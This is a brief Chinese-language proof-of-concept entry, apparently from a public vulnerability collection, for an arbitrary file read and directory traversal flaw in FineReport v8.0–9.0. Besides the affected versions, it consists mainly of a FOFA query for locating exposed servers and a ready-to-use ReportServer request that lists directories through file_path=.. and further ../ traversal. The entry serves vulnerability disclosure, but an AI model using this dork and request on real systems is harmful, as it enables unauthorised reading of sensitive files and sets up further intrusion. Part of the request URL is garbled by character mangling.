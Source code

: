 ## 帆软报表 v8.0 - 9.0 存在任意文件读取漏洞

## 漏洞描述

FineReport v8.0 - 9.0 任意文件读取漏洞，攻击者可以通过此漏洞获取敏感信息，为下一步攻击做准备。

## 漏洞影响

> FineReport v8.0
>
> FineReport v9.0

## FOFA

> body="isSupportForgetPwd"

## POC

登录界面如下：

 ![1](resource/帆软报表/1.jpg)

 

 

查看当前目录路径

```
http://<target>/WebReport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=..¤tUserName=admin¤tUserId=1&isWebReport=true
```

 ![2](resource/帆软报表/2.jpg)

进一步读取此目录下的其他文件

![3](resource/帆软报表/3.jpg)

可以通过../对目录进行遍历，从而获取自己想要的信息

![4](resource/帆软报表/4.jpg)
